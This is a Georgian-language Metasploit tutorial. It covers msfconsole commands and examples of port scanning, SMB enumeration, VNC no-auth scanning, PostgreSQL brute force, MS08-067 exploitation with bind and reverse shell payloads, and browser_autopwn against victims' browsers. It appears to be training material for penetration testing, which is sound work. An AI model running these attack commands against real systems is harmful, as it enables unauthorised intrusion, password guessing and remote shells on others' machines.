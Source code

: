 # მარტივი ეტაპები Metasploit-ის გამოსაყენებლად

  - შეარჩიე ექსპლოიტი რომელსაც გამოიყენებ
  - დააკონფიგურე ექსპლოიტი მსხვერპლის IP მისამართის მითითებით და პორტის ნომერით
  - აირჩიე payload-ი
  - დააკონფიგურე payload-ი ლოკალური IP მისამართის მითითებით და პორტის ნომერით
  - შეამოწმე / გაუშვი ექსპლოიტი

# msfconsole

```
tutashxia@kali ~> msfconsole 
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > 
```

ხედავთ რომ გვიჩვენებს 1795 exploits, 1019 auxiliary, 310 post, 538 payloads, 41 encoders, 10 nops.
  * exploits რათქმაუნდა ექსპლოიტებია
  * auxiliary წარმოადგენს სხვადასხვა დამატებით ხელსაწყოებს სკანირევისთვის
  * payloads არის მარგი ტვირთი რომელიც ექსპლოიტის მიერ გაიშვება
  * encoders გეხმარებათ ანტივირუსების, ფაირვოლების, IDS და IPS-ების გადალახვას მარგი ტვირთვის ენკოდირებით
  * nops (No Operation ან No Operation Performed) ეს არის ასემბლერის ინსტრუქცია რომელიც ხშირადაა გამოყენებული შელკოდებში.


არსებული მოდულების სანახავად:
```
msf > show -h
```

  * **show auxiliary**
  * **show exploits**
  * **show payloads**
  * **show encoders**
  * **shownops**
  * **show options**: გაჩვენებთ პარამეტრებს, მოდულის გამოსაყენებლად.
  * **show targets**: გაჩვენებთ მოდულის მიერ მხარდაჭერის ოპერაციულ სისტემებს.
  * **show advanced**: გაჩვენებთ დამატებით პარამეტრებს.

^ ბრძანება                 ^ ახსნა ^
| **check**                    | ამოწმებს ექსპლოიტის ფუნქციონირებას სამიზნის წინააღმდეგ ექსპლუატაციის გარეშე, რადგან დაადგინოს იგი გამოდგება თუ არა. ბევრ ექსპლოიტს ეს ფუნქცია არ გააჩნია. |
| **connectip** port           | netcat-ს და telnet-ის მსგავსია                      |
| **exploit**                  | შერჩეული ექსპლოიტის გაშვება                         |
| **run**                      | შერჩეული auxiliary-ის გაშვება                       |
| **jobs**                     | აჩვენებს უკანა პლანზე მომუშავე მოდულებს და გაძლევთ საშუალებას რომ ისინი გამორთოთ        |
| **route** add subnet netmasksessionid | გზის დამატება გატეხილი სისტემის გავლით, network pivoting |
| **info** module              | ინფორმაცია მოდულის შესახებ                           |
| **setparam** value           | მოდულის პარამეტრის გამოყენება                        |
| **setgparam** value          | პარამეტრის გამოყენება გლობალურად, ყოველივე მოდულისთვის       |
| **unsetparam**               | შლის მოდულის პარამეტრის მონაცემს                     |
| **unsetgparam**              | გლობალურად შლის პარამეტრის მონაცემს                  |
| **sessions**                 | სესიების მართვ: -l (listing, სია), -i ID (ინტერაქციისთვის), -k ID (kill, გამორთვა)|
| **search** string            | ძიება მოდულების სახელების სიაში და აღწერებში         |
| **use** module               | მოდულის ხმარება                                      |

## მაგალითი 1: პორტ სკანირება

```
tutashxia@kali ~> msfconsole 
msf > load db_tracker
msf > db_nmap -T Aggressive -sV -n -O -v 192.168.0.9
```

არმოჩენილი ღია პორტები სესიაშია შენახული რაც საშუალებას გაძლევთ რომ //db_hosts// და //db_services// ბრძანება გამოიყენოთ.

## მაგალითი 2: SMB-ს მომხმარებლები

```
tutashxia@kali ~> msfconsole 
msf > search SMB
msf > use auxiliary/scanner/smb/smb_enumershares
msf auxiliary(scanner/smb/smb_enumshares) > set RHOSTS 192.168.0.1/24
msf auxiliary(scanner/smb/smb_enumshares) > run
```

## მაგალითი 3: სკანერი VNC ცარიელი აუთინთერობით

```
tutashxia@kali ~> msfconsole 
msf > use auxiliary/scanner/vnc/vnc_none_auth
msf auxiliary(scanner/vnc/vnc_none_auth) > show options

Module options (auxiliary/scanner/vnc/vnc_none_auth):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    5900             yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(scanner/vnc/vnc_none_auth) > set RHOSTS 10.4.124.0/24
RHOSTS => 10.4.124.0/24
msf auxiliary(scanner/vnc/vnc_none_auth) > run
```


## მაგალითი 4: PostgreSQL-ში აუთენთირება

```
tutashxia@kali ~> msfconsole
msf > use auxiliary/scanner/postgres/postgres_login
```

რომ გააგრძელოს ბრუტფორსი იმ შემთხვევაში თუ უკვე დაასკვნა მომხმარებელი და პაროლი.
```
msf auxiliary(postgres_login) > set STOP_ON_SUCCESS false
```

```
msf auxiliary(postgres_login) > set RHOSTS 192.168.0.9
msf auxiliary(postgres_login) > run
```

## მაგალითი 5: Bind shell

Bind shell-ი მარგი ტვირთვია რომელიც გატეხილ სისტემაში უშვებს შელს და შენთვსი ხელმისაწვდომად აქცევს მას ქსელური კავშირის დამყარებით. იგი აგრეთვე გამოიყენება იმ შემთხვევაში თუ ჰაკერი Network Address Translation (NAT) ან ფაორვოლის უკანაა და პირდამირი კავშირი ჰაკერთან და გატეხილ სისტემასთან ვერ დგება.

```
tutashxia@kali ~> msfconsole
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show options
msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
RHOST => 192.168.0.7
msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/bind_tcp
PAYLOAD => windows/shell/bind_tcp
msf exploit(ms08_067_netapi) > exploit
```

## მაგალითი 6: Reverse shell

Reverse shell-ი bind shell-ის პირიქითაა. იმის მაგივრად რომ გატეხილ სისტემაში გახსნას პორტი და კავშირის დამყარებას ელოდოს ჰაკერისგან იგი პირდაპირ ჰაკერის სისტემას უკავშირება აიპი და პორტის მეშვეობით, და უშვებს შელს. ესეთი სცენარი საინტერესოა თუ მსხვერპლი NAT ან firewall უკანაა და სხების მიერ დაკავშირებას კრძალავს.

```
tutashxia@kali ~> msfconsole
msf> use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
RHOST => 192.168.0.7
msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ms08_067_netapi) > show options
msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
LHOST => 192.168.0.3
msf exploit(ms08_067_netapi) > exploit
```

Reverse shell-ის შემთვევაში ჰაკერის აიპის მითითება საჭიროა (LHOST), bind shell-ის განსხვავებით.


## მაგალითი 7: ბრაუზერის ავტომატური ექსპლუატაცია

ეს უფრო მიზანმიმართულია სოციალური ინჟინერიის პროცესისთვის, ანუ პიროვნების ბრაუზერის გასატეხად.

```
tutashxia@kali ~> msfconsole
msf > use auxiliary/server/browser_autopwn
msf auxiliary(server/browser_autopwn) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf auxiliary(server/browser_autopwn) > set SRVPORT 80
SRVPORT => 80
msf auxiliary(server/browser_autopwn) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf auxiliary(server/browser_autopwn) > set URIPATH /
URIPATH => /
msf auxiliary(server/browser_autopwn) > run
```

როცა მსხვერპლი საიტზე შემოვა, მისი ბრაუზერი დაფიქსირდება და ექსპლუატაციის პროცესი განხორციელდება.

ნახეთ სესიების სია, და ნახავთ გატეხილ ბრაუზერს, შემდეგ ბრაზერთან ინტერაქციისთვის შეარჩიეთ სესუა, თუ იგი პირველია მაშინ sessions -i 1.
```
msf auxiliary(server/browser_autopwn) > sessions
```
